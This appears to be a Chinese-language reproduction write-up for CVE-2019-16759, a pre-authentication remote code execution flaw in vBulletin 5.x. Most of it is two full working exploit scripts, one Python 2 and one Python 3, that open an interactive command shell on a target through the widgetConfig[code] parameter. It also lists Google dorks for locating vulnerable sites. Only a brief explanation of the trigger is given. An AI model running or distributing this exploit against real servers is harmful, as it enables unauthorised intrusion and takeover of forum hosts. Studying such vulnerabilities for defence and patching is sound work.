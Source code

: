 # CVE-2019-16759 vBulletin 5.x 0day pre-auth RCE exploit

### 一、漏洞简介

### 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

### 三、复现过程

PoC：


```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
#
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"
import requests
import sys
if len(sys.argv) != 2:
   sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])
params = {"routestring":"ajax/render/widget_php"}
while True:
    try:
         cmd = raw_input("vBulletin$ ")
         params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
         r = requests.post(url = sys.argv[1], data = params)
         if r.status_code == 200:
              print r.text
         else:
              sys.exit("Exploit failed! :(")
    except KeyboardInterrupt:
         sys.exit(" Closing shell...")
    except Exception, e:
         sys.exit(str(e))
```

将poc代码修改为python3使用的代码，并添加代理使用burpsuite抓包。修改的poc代码如下：


```python
# -*-coding:utf-8 -*-

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200:
               print(r.text)

          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception as e:
          sys.exit(str(e))
```

远程代码执行漏洞的触发点是未经过验证的用户通过向index.php发送routestring参数，当routesting参数是ajax/render/widget_php，通过widgetConfig[code]执行远程代码，格式为echo shell_exec('"+cmd+"'); exit;

![](images/15893742513353.png)
